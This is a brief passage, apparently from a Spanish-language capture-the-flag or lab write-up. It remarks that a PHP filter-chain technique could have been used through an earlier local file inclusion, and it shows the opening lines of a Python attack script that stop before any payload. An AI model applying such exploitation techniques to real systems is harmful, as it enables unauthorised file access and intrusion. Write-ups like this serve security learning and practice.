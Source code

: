 Con la técnica `PHP filters chain` podíamos haberla aplicado con el primer **LFI**, sin necesidad de bypassear la url el el filtro de **localhost**.

```python
import requests, base64, json

json_data = {
        'action': 'b64encode',
```